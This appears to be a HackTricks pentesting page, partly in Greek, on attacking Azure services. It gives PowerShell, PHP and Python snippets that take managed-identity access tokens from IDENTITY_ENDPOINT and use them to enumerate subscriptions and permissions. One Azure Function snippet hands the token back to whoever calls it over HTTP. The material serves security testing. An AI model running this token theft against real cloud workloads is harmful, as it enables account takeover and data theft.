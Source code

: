 # Az - Services

{{#include ../../../banners/hacktricks-training.md}}

## Portals

Μπορείτε να βρείτε τη λίστα με τους **Microsoft portals στο** [**https://msportals.io/**](https://msportals.io/)

### Raw requests

#### Azure API via Powershell

Πάρτε το **access_token** από το **IDENTITY_HEADER** και το **IDENTITY_ENDPOINT**: `system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');`.

Στη συνέχεια, κάντε ερώτηση στο Azure REST API για να αποκτήσετε το **subscription ID** και περισσότερα.
```powershell
$Token = 'eyJ0eX..'
$URI = 'https://management.azure.com/subscriptions?api-version=2020-01-01'
# $URI = 'https://graph.microsoft.com/v1.0/applications'
$RequestParams = @{
Method = 'GET'
Uri = $URI
Headers = @{
'Authorization' = "Bearer $Token"
}
}
(Invoke-RestMethod @RequestParams).value

# List resources and check for runCommand privileges
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resources?api-version=2020-10-01'
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/<RG-NAME>/providers/Microsoft.Compute/virtualMachines/<RESOURCE/providers/Microsoft.Authorization/permissions?apiversion=2015-07-01'
```
#### Azure API μέσω Python Έκδοση
```python
IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
IDENTITY_HEADER = os.environ['IDENTITY_HEADER']

print("[+] Management API")
cmd = 'curl "%s?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
print("Access Token: "+json.loads(val)["access_token"])
print("ClientID/AccountID: "+json.loads(val)["client_id"])

print("\r\n[+] Graph API")
cmd = 'curl "%s?resource=https://graph.microsoft.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
print(json.loads(val)["access_token"])
print("ClientID/AccountID: "+json.loads(val)["client_id"])
```
ή μέσα σε μια Συνάρτηση Python:
```python
import logging, os
import azure.functions as func

def main(req: func.HttpRequest) -> func.HttpResponse:
logging.info('Python HTTP trigger function processed a request.')
IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
IDENTITY_HEADER = os.environ['IDENTITY_HEADER']
cmd = 'curl "%s?resource=https://management.azure.com&apiversion=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
return func.HttpResponse(val, status_code=200)
```
## List of Services

**Οι σελίδες αυτής της ενότητας είναι ταξινομημένες κατά υπηρεσία Azure. Εκεί θα μπορέσετε να βρείτε πληροφορίες σχετικά με την υπηρεσία (πώς λειτουργεί και δυνατότητες) καθώς και πώς να καταμετρήσετε κάθε υπηρεσία.**

{{#include ../../../banners/hacktricks-training.md}}

